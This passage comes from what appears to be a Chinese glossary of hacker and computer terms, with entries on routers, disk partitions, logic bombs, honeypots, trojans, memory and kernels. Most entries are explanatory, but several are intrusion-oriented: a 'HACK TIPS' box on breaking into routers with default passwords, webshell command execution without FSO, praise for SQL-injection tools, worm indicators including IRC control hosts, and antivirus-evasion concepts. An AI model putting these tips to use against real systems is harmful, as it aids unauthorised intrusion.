

- 1. 网络互连：路由器支持各种局域网和广域网接口，主要用于互连局域网和广域网，实现不同网络互通通信；
- 2. 数据处理：提供包括分组过滤、分组转发、优先级、复用、加密、压缩和防火墙等功能；
- 3. 网络管理：路由器提供包括配置管理、性能管理、容错管理和流量控制等功能。

为了完成“路由”的工作，在路由器中保存着各种传输路径的相关数据——路由表（Routing Table），供路由选择使用。路由表中保存着子网的标志信息、网上路由器的个数和下一个路由器的名字等内容。路由表可以是由系统管理员固定设置好的，也可以由系统动态修改，路由器自动调整，主机控制。

在路由器中涉及到两个有关地址的概念，那就是：静态路由表和动态路由表。由系统管理员事先设置好固定的路由表称之为静态（static）路由表，一般是在系统安装时就根据网络的配置情况预先设定的，它不会随未来网络结构的改变而改变。动态（dynamic）路由表是路由器根据网络系统的运行情况而自动调整的路由表。

路由器根据路由选择协议（Routing Protocol）提供的功能，自动学习和记忆网络运行情况，在需要时自动计算数据传输的最佳路径。

路由器与【交换机】的主要区别体现在以下几个方面：

- 1、工作层次不同  
最初的交换机是工作在【OSI】开放体系结构的数据链路层，也就是第二层，而路由器一开始就设计工作在 OSI 模型的网络层。由于交换机工作在 OSI 的第二层（数据链路层），所以它的工作原理比较简单，而路由器工作在 OSI 的第三层（网络层），可以得到更多的协议信息，所以路由器可以做出更加智能的转发决策。
- 2、数据转发所依据的对象不同交换机是利用物理地址或者说 MAC 地址来确定转发数据的目的地址，而路由器则是利用不同网络的 ID 号（即 IP 地址）来确定数据转发的地址。IP 地址是在软件中实现的，描述的是设备所在的网络，有时这些第三层的地址也称为协议地址或者网络地址。

MAC 地址通常是硬件自带的，由网卡生产商来分配，而且已经固化到了网卡中去，一般来说是不可更改的。而 IP 地址则通常由网络管理员或系统自动分配。

- 3、路由器提供了防火墙的服务

路由器仅仅转发特定地址的数据包，不传送不支持路由协议的数据包和未知目标网络数据包，从而可以防止广播风暴。

#### HACK TIPS

很多时候，通过 tracert 与 ipconfig 命令可以迅速定位各个路由的位置，然后试着扫描是否有 SNMP 弱口令，或管理弱口令。如果能够通过管理弱口令进入路由并管理路由器的话，可以给入侵带来极大的帮助。

例如许多思科的路由器就通过 23 端口进行管理，默认口令为 cisco。也有的路由器利用 80 端口，即 HTTP 协议进行管理，许多默认用户名与密码都为 admin。

## 逻辑错误｜特定名称

一般逻辑错误指的是两种情况，一种是程序编写时的逻辑错误，另一种是指硬盘上所发生的逻辑错误。

对于前一种错误，是指程序编写者在编写代码时的【算法】出现了问题，导致程序没有按原先预想的流程执行。相对于语法错误，这种错误更难以修改。而对于后一种，是指突然断电等其他外界原因，使得硬盘上的分区表损坏，这种错误一般都可以通过软件进行修复。

## 逻辑分区｜操作系统及其相关

逻辑分区是硬盘上一块连续的区域，不同之处在于，每个主分区只能分成一个驱动器，每个主分区都有各自独立的引导块，可以用 fdisk 设定为启动区。

逻辑分区类似于主磁盘分区，只是每个磁盘最多只能有四个主磁盘分区，而在每个磁盘上创建的逻辑驱动器的数目不受限制。逻辑驱动器可以被格式化并指派驱动器号。

一个硬盘上最多可以有 4 个主分区，而扩展分区上可以划分出多个逻辑驱动器。这些逻辑驱动器没有独立的引导块，不能用 fdisk 设定为启动区。主分区和扩展分区都是 DOS 分区。

## 逻辑炸弹｜病毒与恶意软件

逻辑炸弹全称应为硬盘逻辑炸弹，这是一种通过直接修改硬盘的主引导记录达到破坏硬盘目的的程序，最著名的莫过于江民逻辑炸弹了。

之所以称之为逻辑炸弹，是因为其并没有物理破坏硬盘，而是将硬盘里的主引导记录（硬盘最重要的信息存储区域）修改，其具体修改情况如下：

- 1. 引导程序部分被修改了；
- 2. 硬盘分区表也被修改了，而且被改成一个循环链，即 C 盘的下一个分区指向 D 区，D 区的下一个分区又指向 C 区，这样一直循环下去造成一个死循环；
- 3. 自举标志 55AA 没被修改。

### M

## 马甲｜特定名称

此词起源于本山大叔小品中的一段台词：

> 从前，有一只老虎追赶一条水蛇到池塘，水蛇逃入水中，老虎耐心地在岸边等候。过了一会儿，一只乌龟爬上岸，老虎扑过去一把按住乌龟，得意洋洋地说：“终于逮着你了！别以为换了件马甲我就不认识你了。”

马甲是在论坛或其他网络社区中，为了让别人认不出自己，在常用的用户名外再注册的名字。同一个人在同一论坛注册多于 2 个（含 2 个）ID 并同时使用时，常用的或知名度较高的那个 ID 一般称为主 ID，其他 ID 称为马甲 ID。这种现象也叫“穿马甲”，“替身”是其延伸义之一，一般论坛会明令禁止使用马甲闹事。

通过下列特征可以简单判断当前 ID 是否为马甲：

- 1. 注册时间不长；
- 2. 帖子数较少，或几乎没有主题，或全部是转帖；
- 3. 每每吵架帖都及时现身，每每敏感帖都会出现；
- 4. 没有朋友或从不和论坛的老前辈之一相识。

## 美萍终端卫士｜应用程序

最著名的老牌网吧管理程序之一，在国内被广泛使用。美萍借助内核技术控制了 Windows 的界面，用户只能运行事先选定的软件，另外还具有管理功能（计时、计费、限时、历史记录）及限制非法网站等设置。

## 密码强度｜安全技术

密码强度即用户设置密码的复杂度，这可以一般由密码的字符组成与长度来判断。密码的组成字符越复杂，同时长度越长的话，密码强度就越强。组成字符包括数字、符号、大小写英文等，字符集的数量与密码的长度都决定着密码的强度。

## 免 FSO｜特定名称

在一些用 ASP 技术写成的 WEBSHELL 中都用到了一个常用的对象 FSO，通过 FSO 可以对服务器上的文件进行操作（详情请见其词条），但这也是潜在的安全威胁。因此许多服务器为了安全而删除了这个对象，这就促使了免 FSO 技术的诞生。

免 FSO，顾名思义，即不需要 FSO 就可以对服务器进行管理。其实它是用了另一个 shell.application 对象来达到同样的目的，因为这个对象可以运行指定的程序，所以通过它可以调用 CMD，从而达到管理服务器的目的。

## 蜜罐｜安全技术

蜜罐是指用来引诱入侵者入侵并记录其行为的系统，它可以只是一个软件，也可以是专门的硬件设备。通常蜜罐程序运行后都会伪造出一台独立的机器，同时故意设置许多安全方面的漏洞，引诱入侵者上钩。这种形式因为与狗熊偷蜂蜜的故事很相似，所以起名为蜜罐。

蜜罐可以手工通过各种软件的搭配来实现，最常见的是利用 VMware 搭建一个虚拟系统并加上一些系统记录工具与防火墙实现简单蜜罐。当然，也可以直接利用搭建软件，如 Defnet Honeypot。

## 明文｜安全技术

明文是指没有经过加密的信息，与密文相对应。在黑客技术中，这种情况下的信息最容易受到【嗅探器】的截获并出现安全问题。如 Windows 下的 telnet 程序，如果没有经过 SSH 加密，就可以直接得到登录的密码，因为其中的用户名与密码是以明文传输的。



图 M-1

## 明小子的 PHP 注入工具｜黑客工具

一款用 Delphi 开发的简易 PHP 注入辅助工具，其界面如图 M-1。

## 明小子的旁注 WEB 综合检测程序｜黑客工具

一款在国内被极其流行的 SQL 注入工具，如图 M-2，其特点是【旁注】功能十分强大，能够自动提取同一个 IP 上的所有网站，并对其余的网站进行整站扫描，是入侵时的利器。



图 M-2

## 命令行｜操作系统及其相关

命令行是计算机最原始的一种输入、输出操作方式，与图形界面相对应。如图 M-3，为 Windows 下的命令行 CMD。

对于许多刚接触计算机的新手来说，命令行是很容易被忽略的一个东西，因为他们觉得现在图形界面可以完成大多数工作。遥想当初，计算机以字符界面为主，少有的图形界面都是通过色块来构成。现在计算机性能大大提高后，图形界面就被广泛使用，但命令行相对于图形界面来说，仍然具有不可替代的作用！它占用系统资源较少，同时可以快速地完成多个指令，这都是图形界面无法替代的。



图 M-3

## 魔鬼波｜病毒与恶意软件

魔鬼波（Worm.IRC.WargBot.a）是利用 MS06-040 漏洞进行传播的一种蠕虫，它的特点在于感染此蠕虫病毒的主机，都会被黑客通过 IRC 所控制，沦为黑客的肉鸡。

魔鬼波病毒发作症状：

魔鬼波病毒都在受感染系统中生成以下病毒文件：%system%\wgareg.exe；并添加服务，通过服务启动 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\swgareg\"ImagePath\"="%system%\wgareg.exe"。同时，通过修改注册表信息降低系统安全等级，使用命令进行远程控制；并连接下列 IRC 服务器接受黑客控制：ypgw.wallloan.com、bnid.househot.com。接着利用 Windows 系统服务远程缓冲区漏洞（MS06-040）进行主动攻击，可能导致网络瘫痪、系统崩溃；（Worm:IRC.WargBot.b）病毒还可注入 explorer.exe 进程，上网一段时间后提示错误，并且无法上网，需要重新启动。不过现在的杀毒软件都可以查杀此病毒，已经不具威胁了。

## 木马｜特定名称

木马的全称应该为特洛伊木马，英文为 Trojan horse。它应该是黑客圈、普通网民与安全厂商最关心的一个词了，其名称取自希腊神话的“特洛伊木马记”，故事如下：

古希腊传说中，特洛伊王子帕里斯访问希腊，诱走了王后海伦，希腊人因此远征特洛伊。围攻多年后，希腊将领奥德修斯献了一计，就是把一批勇士埋伏在一匹巨大的木马腹内，放在城外后，佯作退兵。特洛伊人以为敌兵已退，就把木马作为战利品搬入城中。到了夜间，埋伏在木马中的勇士跳出来，打开了城门，希腊将士一拥而入攻下了城池。后来，人们就常用“特洛伊木马”这一典故比喻在敌方营垒里埋下伏兵、里应外合的活动。

这个故事很好地把计算机领域中木马的功能表达了出来，只不过这里的城池变成了计算机，而希腊人与特洛伊人分别变成了控制端与服务端。

总的来说，木马就是一种具有远程控制功能，并同时具有隐蔽性和非授权性的程序。

所谓隐蔽性是指木马的设计者为了防止木马被发现，会采用多种手段隐藏木马，这样服务端即使发现感染了木马，也很难将其清除。

而非授权性是指服务端被没有许可的控制端植入木马，而一旦控制端与服务端连接后，控制端将享有服务端的大部分操作权限，包括修改文件、修改注册表、控制鼠标、键盘等等；而这些权力并不是服务端赋予的，而是通过木马程序窃取的。

从木马的发展来看，基本上可以分为两个阶段：

当网络还处于以 UNIX 平台为主的时期，木马就产生了。当时，木马程序的功能相对简单，往往是将一段程序嵌入到系统文件中，用跳转指令来执行一些木马的功能。在这个时期，木马的设计者和使用者大多数都是些技术人员，必须具备相当的网络和编程知识。

而后随着 Windows 平台的日益普及，一些基于图形操作的木马程序出现了。用户界面的改善，使得使用者不用懂太多的专业知识就可以熟练地操作木马，因此木马入侵事件开始频繁出现。而且由于这个时期木马的功能已日趋完善，因此对服务端的破坏也更大了。

现如今，木马的功能强大到了变态的地步，一旦中了木马，计算机基本完全受控于控制端，甚至连摄像头这样的部件都能被控制端完全控制。

下面来说说木马的原理，首先要说的是木马的工作模式。一般的木马都是基于 C/S 模式，当然也有少数木马是基于 B/S 模式的。也就是说，木马大多数都必须有控制端与服务端两个部分。

控制者想要控制每个主机，首先就要在对方的主机中植入服务端，并运行。接着就是控制端与服务端的交互了，但不同种类的木马，这个部分各有不同。按连接方式分，**木马可分为主动连接型与反弹连接型**。下面就这两种类型的木马分别介绍一下。

对于主动连接型的木马，服务端运行后会自动进行【端口监听】，而这个监听的端口在木马配置时已经指定，控制端需主动连接上这个监听的端口后才能与服务端进行交互，从而达到控制的目的。不过这种方式需要服务端有【公网】IP 才能进行连接，同时容易被防火墙所屏蔽，这也是这种方式的局限性所在。

另一种连接类型是【反弹连接】。这种类型的木马运行后会主动连接控制端。这样不管服务端是在【内网】或【公网】都能很容易地连接，同时【穿墙】的效果会好很多，所以这种连接形式是目前的主流。

另外，木马一般都会具有以下几大主要功能：

- 1. **窃取密码**：一切以明文的形式、* 形式或缓存在 CACHE 中的密码都能被木马侦测到。此外，很多木马还提供有击键记录功能，它将会记录服务端每次敲击键盘的动作。所以，一旦有木马入侵，密码将很容易被窃取。
- 2. **文件操作**：控制端可借由远程控制对服务端上的文件进行删除、新建、修改、上传、下载、运行、更改属性等一系列操作，基本涵盖了 Windows 平台上所有的文件操作功能。
- 3. **修改注册表**：控制端可任意修改服务端注册表，包括删除、新建或修改主键、子键、键值。有了这项功能，控制端就可以禁止服务端软驱、光驱的使用，锁住服务端的注册表，将服务端上木马的触发条件设置得更隐蔽。
- 4. **系统操作**：这项内容包括重启或关闭服务端操作系统，断开服务端网络连接，控制服务端的鼠标、键盘，监视服务端桌面操作，查看服务端进程等，控制端甚至可以随时给服务端发送信息。
- 5. **控制外围设备**：现在的木马已经变态到可以控制摄像头！
- 6. **形成【僵尸网络】，进行大规模网络攻击**：当服务端的数量达到一定程度时就会形成僵尸网络，对指定目标进行大规模的 DDOS 攻击。如图 M-4，就是上兴木马控制端的攻击模块。



图 M-4

国内最著名的木马非【冰河】与【灰鸽子】莫属了，详情请见其词条。

## 木桶理论｜特定名称

木桶理论又称水桶效应，它是指一只水桶想盛满水，必须每块木板都一样平齐且无破损。如果这只桶的木板中有一块不齐或者某块木板下面有破洞，这只桶就无法盛满水。也就是说，一只水桶能盛多少水，并不取决于最长的那块木板，而是取决于最短的那块木板。也可称为短板效应。

木桶原理是由美国管理学家彼得提出的，它的意义就是说任何一个组织，可能面临的一个共同问题，即构成组织的各个部分往往是优劣不齐的，而劣势部分往往决定整个组织的水平。

若仅仅作为一个形象化的比喻，木桶理论可谓是极为巧妙和别致的。但随着它被应用得越来越频繁，应用场合及范围也越来越广泛，已基本由一个单纯的比喻上升到了理论的高度。这由许多块木板组成的木桶不仅可象征一个企业、一个部门、一个班组，也可象征某一个员工，而木桶的最大容量则象征着整体的实力和竞争力。

## 内存｜硬件，操作系统及其相关

内存在计算机的组成结构中是一个很重要的部分，从字面上讲就是内部存储器。**存储器是用来存储程序和数据的部件**，对于计算机来说，有了存储器，才有记忆功能，才能保证正常工作。**存储器的种类有很多，按其用途可分为主存储器和辅助存储器，主存储器又称内存储器，辅助存储器又称外存。**

像系统程序、游戏等，一般都是安装在硬盘这类外存上的，但仅此是不能使用其功能的，使用时必须把它们调入内存中运行，才能真正使用其功能。我们平时输入一段文字，或玩一个游戏，其实都是在内存中进行的。通常我们把要永久保存的、大量的数据存储在外存上，而把一些临时的或少量的数据和程序放在内存上。

**内存的特点是快并且只能暂时存储。**当一段程序执行时，系统需先把这段程序加载到内存上，然后再对内存进行读取及其他操作，所以内存的大小直接关系到计算机处理数据的性能。

一般来说，内存分以下三种：

- 一、只读存储器（ROM）
- 二、随机存储器（RAM）
- 三、高速缓冲存储器（Cache）

ROM 表示只读存储器（Read Only Memory），在制造 ROM 的时候，信息（数据或程序）就被存入并永久保存。这些信息只能读出，一般不能写入，即使机器掉电，这些数据也不会丢失。ROM 一般用于存放计算机的基本程序和数据，如 BIOS ROM，其物理外形一般是双列直插式（DIP）的集成块。

随机存储器（Random Access Memory）表示既可以从中读取数据，也可以写入数据。当机器电源关闭时，存于其中的数据就会丢失。这也是我们平常最常提到的内存种类，也称为内存条。

内存条（SIMM）就是将 RAM 集成块集中在一起的一小块电路板，它插在计算机中的内存插槽上，以减少 RAM 集成块占用的空间。目前市场上常见的内存条有 512M/条、1G/条、2G/条等。如图 N-1，为著名厂商金士顿的内存条。



Cache 也是我们经常遇到的概念，它位于 CPU 与内存之间，是一个读写速度比内存更快的存储器。当 CPU 向内存中写入或读出数据时，这个数据也被存储进高速缓冲存储器中。当 CPU 再次需要这些数据时，CPU 就从高速缓冲存储器读取数据，而不是访问较慢的内存。当然，如需要的数据在 Cache 中没有，CPU 会再去读取内存中的数据。

### 免杀技术

内存免杀是相对于文件免杀来说的。很多时候，可以通过修改一个程序的【特征码】来逃脱杀毒软件的查杀，可这个时候程序是静态的，它并没有释放到内存中运作起来。如果一旦运行，将数据释放到内存中，就有新的特征码暴露出来了，这时就要进行内存免杀。

## 内存特征码

即程序运行后在【内存】中的【特征码】。

### 内核

内核是操作系统最重要，也是最基本的部分，它是为众多应用程序提供对计算机硬件进行安全访问的部件。这种访问是有限的，并且内核决定一个程序在什么时候对某部分硬件操作多长时间。

直接对硬件操作是非常复杂的，所以内核通常提供一种硬件抽象的方法来完成这些操作。硬件抽象隐藏了复杂性，为应用软件和硬件提供了一套简洁、统一的接口，使程序设计更为简单。

严格地说，内核并不是计算机系统中必要的组成部分。许多程序可以直接地刷入芯片汇总并被调入计算机中执行，这样的设计说明了设计者不希望提供任何硬件抽象和操作系统的支持，它常见于早期计算机系统的设计中。但这样的结果是使用户不方便与计算机进行交互与管理，这最终导致了内核的产生。

内核可以分为以下几类：

- 单内核，它为潜在的硬件提供了大量完善的硬件抽象操作。如：传统的 UNIX 内核、Linux 内核。
- 微内核，只提供了很小一部分的硬件抽象，大部分功能由一种特殊的用户态程序：服务器来完成。微内核的例子：AIX、BeOS、Minix、MorphOS、QNX、RadiOS。
- 混合内核，它很像微内核结构，只不过它的组件更多的是在核心态中运行，以获得更快的执行速度。混合内核的例子：BeOS 内核、Windows NT、Windows 2000、Windows XP、Windows Server 2003 以及 Windows Vista 等基于 NT 技术的操作系统。
- 外内核，这种内核不提供任何硬件抽象操作，但是允许为内核增加额外的运行库。通过这些运行库，应用程序可以直接地或者接近直接地对硬件进行操作。

现在，外核设计还停留在研究阶段，没有任何一个商业系统采用这种设计。几种概念上的操作系统正在被开发，如剑桥大学的 Nemesis、格拉斯哥大学的 Citrix 系统和瑞士计算机科学院的一套系统，麻省理工学院也在进行着这类研究。

### 内网

内网从字面上可以理解为内部的网络，与外网相对应。企业、学校及其他为了方便办公的事业单位都需要建立独立网络，而这种内部独立的网络就称为内网。内部网络的主机通过路由器或其他网关，利用 NAT 技术访问外部网络。

## 【内网渗透】｜渗透技术

